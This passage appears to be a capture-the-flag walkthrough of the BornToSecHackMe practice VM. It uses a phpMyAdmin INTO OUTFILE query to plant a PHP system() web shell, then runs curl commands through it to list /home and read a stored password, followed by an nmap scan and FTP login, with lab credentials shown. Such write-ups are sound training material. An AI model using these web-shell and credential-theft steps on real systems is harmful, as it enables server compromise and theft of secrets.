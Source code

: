 We connect with it to the forum. Going into mlezard profile (https://192.168.1.58/forum/index.php?mode=user&action=edit_profile), we find his email to be laurie@borntosec.net.

=> connect to https://192.168.1.58/webmail/

````
Hey Laurie,

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

Best regards.
````

=> connect to phpmyadmin



## IV. Injection

In phpmyadmin :

````
SELECT "<?php system($_GET['cmd’].’ 2>&1’) ?>" INTO OUTFILE "/var/www/forum/templates_c/exploit.php"
````

````bash
$> curl -k 'https://192.168.1.58/forum/templates_c/exploit.php?cmd=pwd'
/var/www/forum/templates_c

=> -k = —insecure
=> injection was successful

curl -k 'https://192.168.1.58/forum/templates_c/exploit.php?cmd=ls%20/home’
LOOKATME ft_root laurie laurie@borntosec.net lmezard thor zaz

curl -k 'https://192.168.1.58/forum/templates_c/exploit.php?cmd=ls%20/home/LOOKATME’
password

curl -k 'https://192.168.1.58/forum/templates_c/exploit.php?cmd=cat%20/home/LOOKATME/password’
lmezard:G!@M6f4Eatau{sF"
````



## V. Get files through FTP

It’s not an ssh password. We look for open services  with nmap with version detection:

````bash
$> nmap 192.168.1.58

Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-19 22:37 CEST
Nmap scan report for BornToSecHackMe (192.168.1.58)
Host is up (0.00018s latency).
Not shown: 994 closed ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps

$> brew install inetutils

$> ftp lmezard@192.168.1.58
Connected to 192.168.1.58.
220 Welcome on this server
````